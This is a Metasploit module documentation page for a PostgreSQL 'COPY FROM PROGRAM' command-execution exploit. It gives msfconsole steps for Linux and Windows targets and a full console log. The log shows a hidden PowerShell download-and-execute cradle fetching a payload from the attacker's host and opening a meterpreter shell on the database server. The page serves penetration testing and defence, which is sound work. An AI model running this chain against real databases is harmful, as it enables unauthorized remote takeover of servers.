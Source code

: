 This module attempts to create a new table, then execute system commands in the
context of copying the command output into the table.

This module should work on all Postgres systems running version 9.3 and above.

## Vulnerable Application

  Download any version of PostgreSQL from 9.3 to 11.2 (Latest at time of writing)
  Set up the software and connect as the postgres superuser.
  Use the techniques described in this blogpost to verify command execution:
    https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

## Verification Steps

  You must be able to connect to the PostgreSQL database, and have a valid set of superuser
  credentials, or a user in the 'pg_read_server_files' group
  
  Exploiting Linux/OSX:

    1. Start msfconsole
    2. use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    3. set RHOST target.ip.add.ress
    4. set payload cmd/unix/reverse_perl
    5. set PASSWORD postgres
    6. set USERNAME postgres
    7. set DATABASE postgres
    8. set LHOST my.ip.add.ress
    9. set LHOST myport
    10. exploit
  
  Exploiting Windows:

    1. Start msfconsole
    2. use exploit/multi/script/web_delivery
    3. set target 2
    4. set payload windows/meterpreter/reverse_tcp
    5. set LHOST my.ip.add.ress
    6. exploit -j
    7. Copy powershell command, add \ to escape any single quotes
    8. use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    9. set RHOST target.ip.add.ress
    10. set COMMAND powershell... (Output from Step 7)
    11. set PASSWORD postgres
    12. set USERNAME postgres
    13. set DATABASE postgres
    14. exploit


## Options

  **COMMAND**

  Instead of using a cmd stager metasploit payload, for windows you need to execute a command. This is suggested to be 
  a web_delivery powershell command, however other techniques can be used. 
  
  **TABLENAME**
  
  The name of the table to create in the database, default is set to 'msftesttable', this table will be dropped create a new
  one each time the exploit is run.
  
  **DATABASE**
  
  Name of the database to connect to
  
  **USERNAME**
  
  A valid username that allows access to the database
  
  **PASSWORD**
  
  A valid password that allows access to the database
  
## Scenarios

### Exploiting PostgreSQL 10.7 on Linux

   ![Image Not Found](https://cdn-images-1.medium.com/max/1600/1*G0E4YMdLA59lDsDm38Ce-g.png)
   ![Image Not Found](https://cdn-images-1.medium.com/max/1600/1*sJLJlahpTxWrB566k-IHwQ.png)
   
### Exploiting PostgreSQL 10.7 on Windows

    ```
    msf5 exploit(multi/script/web_delivery) > set target 2
    target => 2
    msf5 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_tcp
    payload => windows/meterpreter/reverse_tcp
    msf5 exploit(multi/script/web_delivery) > set LHOST 192.168.0.18
    LHOST => 192.168.0.18
    msf5 exploit(multi/script/web_delivery) > show options

    Module options (exploit/multi/script/web_delivery):

       Name     Current Setting  Required  Description
       ----     ---------------  --------  -----------
       SRVHOST  0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
       SRVPORT  8080             yes       The local port to listen on.
       SSL      false            no        Negotiate SSL for incoming connections
       SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
       URIPATH                   no        The URI to use for this exploit (default is random)


    Payload options (windows/meterpreter/reverse_tcp):

       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     192.168.0.18     yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       2   PSH


    msf5 exploit(multi/script/web_delivery) > exploit -j
    [*] Exploit running as background job 0.
    [*] Exploit completed, but no session was created.

    [*] Started reverse TCP handler on 192.168.0.18:4444
    [*] Using URL: http://0.0.0.0:8080/pUDD5sy8vTTD
    [*] Local IP: http://192.168.0.18:8080/pUDD5sy8vTTD
    [*] Server started.
    [*] Run the following command on the target machine:
    msf5 exploit(multi/script/web_delivery) > powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring('http://192.168.0.18:8080/pUDD5sy8vTTD');

    msf5 exploit(multi/script/web_delivery) > use exploit/multi/postgres/postgres_copy_from_program_cmd_exec
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set DATABASE postgres
    DATABASE => postgres
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set RHOSTS 192.168.0.24
    RHOSTS => 192.168.0.24
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > show options

    Module options (exploit/multi/postgres/postgres_copy_from_program_cmd_exec):

       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       COMMAND                     no        Send a custom command instead of a payload, use with powershell web delivery against windows
       DATABASE   postgres         yes       The database to authenticate against
       PASSWORD   postgres         no        The password for the specified username. Leave blank for a random password.
       RHOSTS     192.168.0.24     yes       The target address range or CIDR identifier
       RPORT      5432             yes       The target port (TCP)
       TABLENAME  msftesttable     yes       A table name that doesnt exist(To avoid deletion)
       USERNAME   postgres         yes       The username to authenticate as


    Exploit target:

       Id  Name
       --  ----
       0   Automatic

    
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > set COMMAND powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring(\'http://192.168.0.18:8080/pUDD5sy8vTTD\');
    COMMAND => powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring('http://192.168.0.18:8080/pUDD5sy8vTTD')
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > exploit

    [*] Started reverse TCP double handler on 192.168.0.18:4456
    [*] 192.168.0.24:5432 - 192.168.0.24:5432 - PostgreSQL 10.7, compiled by Visual C++ build 1800, 32-bit
    [*] 192.168.0.24:5432 - Exploiting...
    [+] 192.168.0.24:5432 - 192.168.0.24:5432 - msftesttable dropped successfully
    [+] 192.168.0.24:5432 - 192.168.0.24:5432 - msftesttable created successfully
    [*] 192.168.0.24     web_delivery - Delivering Payload
    [!] 192.168.0.24:5432 - 192.168.0.24:5432 - Unable to execute query: COPY msftesttable FROM PROGRAM 'powershell.exe -nop -w hidden -c $a=new-object net.webclient;$a.proxy=[Net.WebRequest]::GetSystemWebProxy();$a.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $a.downloadstring(''http://192.168.0.18:8080/pUDD5sy8vTTD'');';
    [*] 192.168.0.24:5432 - Exploit Failed
    [*] Exploit completed, but no session was created.
    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) >
    [*] Sending stage (179779 bytes) to 192.168.0.24
    [*] Meterpreter session 1 opened (192.168.0.18:4444 -> 192.168.0.24:50154) at 2019-03-24 17:40:59 +0000

    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > show sessions

    Active sessions
    ===============

      Id  Name  Type                     Information                                     Connection
      --  ----  ----                     -----------                                     ----------
      1         meterpreter x86/windows  NT AUTHORITY\NETWORK SERVICE @ DESKTOP-BHTT8OP  192.168.0.18:4444 -> 192.168.0.24:50154 (192.168.0.24)

    msf5 exploit(multi/postgres/postgres_copy_from_program_cmd_exec) > sessions -i 1
    [*] Starting interaction with 1...

    meterpreter > getuid
    Server username: NT AUTHORITY\NETWORK SERVICE
    
    ```
